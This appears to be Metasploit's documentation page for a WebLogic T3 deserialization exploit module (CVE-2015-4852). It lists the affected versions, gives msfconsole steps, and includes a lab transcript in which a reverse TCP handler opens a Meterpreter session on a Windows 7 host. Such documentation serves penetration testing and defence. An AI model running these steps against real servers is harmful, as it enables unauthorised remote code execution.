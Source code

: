 ## Description
Oracle WebLogic Server v10.3.6.0, v12.1.2.0, v12.1.3.0, and v12.2.1.0 are vulnerable to a deserialization vulnerability (CVE 2015-4852), which can be used to execute code on vulnerable systems. An unauthenticated user with network access via T3 could exploit the vulnerability. This module has been tested against Oracle WebLogic Server v10.3.6.0 and v12.1.3.0 running on Windows 7 x64 using JDK v7u80.

Note that successful exploitation will output the following warning to the admin server console:

```
&lt;Mar 26, 2019 4:13:24 PM CDT&gt; &lt;Error&gt; &lt;RJVM&gt; &lt;BEA-000503&gt; &lt;Incoming message header or abbreviation processing failed
java.lang.ClassCastException: java.lang.Integer cannot be cast to java.util.Set
java.lang.ClassCastException: java.lang.Integer cannot be cast to java.util.Set
        at $Proxy57.entrySet(Unknown Source)
        at sun.reflect.annotation.AnnotationInvocationHandler.readObject(AnnotationInvocationHandler.java:327)
        at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
        at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:39)
        at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:25)
        Truncated. see log file for complete stacktrace
```

## Vulnerable Application
Oracle WebLogic Server v10.3.6.0, v12.1.2.0, v12.1.3.0, and v12.2.1.0.

## Verification Steps
1. `./msfconsole -q`
2. `use exploit/multi/misc/weblogic_deserialize_rawobject`
3. `set rhosts <rhost>`
4. `set rport <srvport>`
5. `exploit`

## Scenarios
### Windows 7 x64 running Oracle WebLogic Server 10.3.6.0 and 12.1.3.0 on JDK v7u80
```
msf exploit(multi/misc/weblogic_deserialize_rawobject) > set rhost 192.168.192.6
rhost => 192.168.192.6
msf exploit(multi/misc/weblogic_deserialize_rawobject) > set rport 7001
rport => 7001
msf exploit(multi/misc/weblogic_deserialize_rawobject) > exploit

[*] Started reverse TCP handler on 192.168.192.136:4444 
[*] 192.168.192.6:7001 - Sending handshake...
[*] 192.168.192.6:7001 - Sending T3 request object...
[*] 192.168.192.6:7001 - Sending client object payload...
[*] Sending stage (179779 bytes) to 192.168.192.6
[*] Meterpreter session 7 opened (192.168.192.136:4444 -> 192.168.192.6:49266) at 2018-12-14 11:40:29 -0800

meterpreter > sysinfo
Computer        : GIOTTO-HS-W7
OS              : Windows 7 (Build 7600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```
